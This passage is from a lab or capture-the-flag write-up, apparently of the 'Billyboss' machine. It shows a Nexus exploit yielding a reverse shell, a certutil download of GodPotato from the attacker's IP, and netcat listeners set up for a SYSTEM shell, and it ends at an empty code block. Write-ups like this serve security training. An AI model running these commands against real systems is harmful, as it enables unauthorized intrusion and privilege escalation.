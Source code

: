 Run the exploit again
~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ python3 49385.py
Logging in
Logged in successfully
Command executed
~~~
And we recieve our initial foothold!
~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ nc -nvlp 445
listening on [any] 445 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.182.61] 49767
Microsoft Windows [Version 10.0.18362.719]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\nathan\Nexus\nexus-3.21.0-05>
~~~

# Privilege Escalation

I begun the privilege escalation enumeration by running winpeas and found our user has SeImpersonatePrivileges

![Billyboss](/assets/img/BillybossPG(8).png)

During the enumeration I also identified the target machine is running Windows 10 Build 18362

![Billyboss](/assets/img/BillybossPG(9).png)

As discussed on [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato) JuicyPotato the commonly used Windows PrivEsc tool that abuses SeImpersonatePrivileges doesn't work on builds >1809, so I instead used [GodPotato](https://github.com/BeichenDream/GodPotato)

I downloaded the exploit
~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
~~~
Transferred the exploit to the target
~~~shell
C:\Users\nathan\Nexus\nexus-3.21.0-05>certutil.exe -urlcache -split -f "http://192.168.45.167/GodPotato-NET4.exe"
certutil.exe -urlcache -split -f "http://192.168.45.167/GodPotato-NET4.exe"
****  Online  ****
  0000  ...
  e000
CertUtil: -URLCache command completed successfully.
~~~
Started a netcat listener on port 139 to catch the root (system) shell
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 139 
listening on [any] 139 ...
~~~
Then ran the exploit on the target host
~~~shell
~~~